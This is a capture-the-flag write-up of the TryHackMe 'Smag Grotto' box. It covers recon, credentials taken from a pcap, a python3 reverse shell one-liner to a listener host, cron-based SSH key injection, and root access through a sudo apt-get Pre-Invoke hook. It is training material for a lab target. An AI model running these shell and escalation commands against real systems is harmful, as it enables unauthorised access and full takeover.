 # 'Smag Grotto' box writeup
## Smag Grotto is a CTF box written by JakeDoesSec and available on the [TryHackMe platform](https://tryhackme.com).
## Read about [Crontab service](https://opensource.com/article/17/11/how-use-cron-linux), [apt-get package system tool](https://itsfoss.com/apt-get-linux-guide/) and [APT Privilege Escalation](https://www.hackingarticles.in/linux-for-pentester-apt-privilege-escalation/)

# ![bg](images/background.png?raw=true "Title")

## Foothold
+ **We deploy the machine and start with a nmap scan for open ports**

``nmap -sV -sC -oN scan1 10.10.163.139``

+ **There are 2 services running on default ports: ssh and http**

![1](images/nmap_scan_sg.jpg?raw=true "nmap_scan")

+ **Visiting the http site, we are welcomed by a big Smag title with a small announce from the developer of the site**

![2](images/site_sg.png?raw=true "Site")

+ **Let's perform a gobuster to search some directories on the website. I'm using the common.txt wordlist, a default wordlist on kali machines**

``gobuster dir -u http://10.10.163.139/ -w /usr/share/wordlists/dirb/common.txt``


![3](images/dirbuster.jpg?raw=true "gobuster")

+ **We found a mail directory, so let's check it out into the web browser. It seems to be like a mail message left on the website to notify a future migration. The mail was writen with the intention to arrive to the admin of the page**

![4](images/mail_page.png?raw=true "mail_page")

+ **Inside the first Network Migration box of the message, we can spot the dHJhY2Uy.pcap, a linked file which seems to be a packet data of this network. Let's download that file and go into a Wireshark analysis of this packet.**

![5](images/wiresh_packet.png?raw=true "wireshark_analysis")

+ **We can spot a POST login request inside the data packet, so let's follow TCP stream into this packet**

![6](images/tcp_stream.png?raw=true "tcp_stream")

+ **Bingo! We found some credentials in plain text form. Looking in the picture above us, we can see the Host that has been used in the POST login request: development.smag.thm. If we are trying to access that page, we're having trouble finding that site... But, judging on the mails that the developers shared between them, the website suffered a migration, so let's just try to change our hosts list to override the DNS**

``sudo vim /etc/hosts``

![7](images/hosts.jpg?raw=true "hosts")

+ **Now, let's try to access the development.smag.thm/login.php page so we can use our credentials**

![7](images/login1.jpg?raw=true "login")

+ **We are welcomed by a big title 'Enter a command' with a box below. I tried some several linux commands like ls, whoami, etc, but i can't see no output. So i've tried to download a file on the box machine with the wget, hosting a simple python server on mine, just to check if the commands are available and if it's worth trying a reverse shell.**

![8](images/wget.jpg?raw=true "wget")

## User escalation
+ **It's all working, we get the GET request so let's move on to a reverse shell, using python3. I've tried with python but not working, because probably on the machine a python3 is installed.**
  **Firstly, listen to the 1234 port**
``nc -lvnp 1234``

``python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'``

 **And here it's our shell, connected with the www-data user. Let's upgrade it to an interactive one**

``python3 -c 'import pty; pty.spawn("/bin/bash")'``

![9](images/entered(2).jpg?raw=true "shell")

+ **Let's look into the crontab file and understand it. We have a cron which tells us that the root user is making an overwriting action every minute through the cat command from the** jake_id_rsa.pub.backup **file to the** authorized_keys **file of the jake user. This means that if we can modify the jake_id_rsa.pub.backup content, we can connect with the jake user on the ssh service.**

![10](images/crontab.jpg?raw=true "crontab")

 **Luckily, the** jake_id_rsa.pub.backup **file has writing permission for every user.**
 
![11](images/fileperm.jpg?raw=true "fileperm")

+ **Let's copy our public key into the remote box.**

``cat /home/kali/.ssh/id_rsa.pub``

``echo "your_id_rsa.pub" > /opt/.backups/jake_id_rsa.pub.backup``

![12](images/copy_id.jpg?raw=true "copy_id")

![13](images/copy_id_2.jpg?raw=true "copy_id_2")


+ **Now, we have overwritten the public ssh and we can use public key authentication. Voila, there's our user flag**

![13](images/user_flag.jpg?raw=true "user_flag")

## Root Escalation

+ **Running the** ``sudo -l`` **command, we can see the allowed commands for the user jake. He has a powerful accessible command to run: apt-get, which is the command line tool to interact with this packaging system.**

![14](images/sudola.jpg?raw=true "sudo -l")

+ **Exploiting the apt-get vulnerability, we can use the tool to gain a root access, using the update option and simultanously invoking the bash into the root account**

``sudo apt-get update -o APT::Update::Pre-Invoke::=/bin/bash``

+ **So here we got the root flag. It was a funny box with an interesting vulnerability based on apt tool, a very useful box for beginners and all the thanks goes to JakeDoesSec**

![15](images/root_flag(1).jpg?raw=true "root_flag")

